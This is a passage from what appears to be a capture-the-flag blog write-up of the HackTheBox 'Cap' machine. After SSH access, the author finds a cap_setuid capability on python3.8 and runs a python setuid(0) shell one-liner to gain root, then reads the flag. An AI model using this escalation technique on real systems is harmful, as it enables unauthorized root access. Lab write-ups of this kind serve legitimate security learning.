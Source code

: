 Now let’s try to login with these creds on ssh (It worked)

## PRIVESC TO ROOT

since the name of the machine is cap, let’s check the capabilities

```js
getcap -r / 2>/dev/null
```

```js
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Ok let’s check for python in [**gtfobins**](https://gtfobins.github.io/gtfobins/python/#capabilities)

```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# cat /root/root.txt
9aba33f*************70e112875
```

Cool we got root !

Follow this blog for more awesome write-ups!

And don’t forget to gimme respect + in **[Hackthebox](https://www.hackthebox.eu/home/users/profile/190694)**
